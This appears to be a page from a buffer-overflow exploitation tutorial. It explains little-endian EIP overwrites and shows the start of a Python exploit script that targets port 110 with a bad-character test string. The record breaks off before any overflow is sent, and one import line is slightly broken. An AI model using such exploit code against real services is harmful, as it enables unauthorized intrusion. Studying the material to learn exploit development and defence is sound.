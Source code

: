 Replace the four EIP bytes in your script with the address reversed (last byte first
and first byte last). You're reversing the byte order because x86 uses little endian format.

If the address were `0x65d11d71`, or `\x65\xd1\x1d\x71`, then you'd replace your script’s four-byte EIP value with `\x71\x1d\xd1\x65`.

```
root@kali:~# vim sploit.py
```

```
#!/usr/bin/python

import socket, sys

#################### gsstyle
from colorama import Fore, Back, Style
colorama.init()

def printinfo(output):
  print Style.DIM + "[*] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printresult(output):
  print Style.BRIGHT + Fore.BLUE + "[>] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printalert(output):
  print Style.BRIGHT + Fore.RED + "[!] ",
  for field in output:
    print field,
  print Style.RESET_ALL

#################### Help section
if len(sys.argv) != 2:
  print "Usage: ./sys.argv[0] <ip.addr>"
  print
  print "ARGUMENT        FORMAT  DESCRIPTION"
  print " <ip.addr>       IPv4    IP address of host you want to test."
  print
  sys.exit(0)

#################### Variables
ip = sys.argv[1]   # string argument
port = 110         # int

# Initialize string of UTF hex values \x01 thru \xff for badchar testing:
chars  =     "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
chars += "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
chars += "\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
chars += "\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
chars += "\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
chars += "\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
chars += "\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
chars += "\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
```